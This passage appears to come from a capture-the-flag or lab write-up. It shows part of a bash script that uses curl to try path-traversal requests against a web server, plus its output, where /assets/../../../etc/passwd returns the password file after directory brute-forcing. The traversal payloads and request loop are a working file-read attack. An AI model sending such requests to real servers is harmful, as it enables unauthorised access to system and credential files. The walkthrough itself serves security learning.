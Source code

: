 ```
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

The file will make Local File Vulnerability attempts like below:

```
[+] Testing with /static/../etc/passwd
	Status code --> 404
[+] Testing with /static/../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../../../../../../../etc/passwd
	Status code --> 404
[+] Testing with /static/../../../../../../../../../../../../../../../etc/passwd
	Status code --> 404

```

After running directory brute forces, using `gobuster` and `feroxbuster`, I found the `assets` directory, which I updated the payload in the shell script.

The `/etc/passwd` file gets the following output:

```
bash exploit.sh
[+] Testing with /assets/../etc/passwd
	Status code --> 404
[+] Testing with /assets/../../etc/passwd
	Status code --> 404
[+] Testing with /assets/../../../etc/passwd
	Status code --> 200
root:x:0:0:root:/root:/bin/bash
```
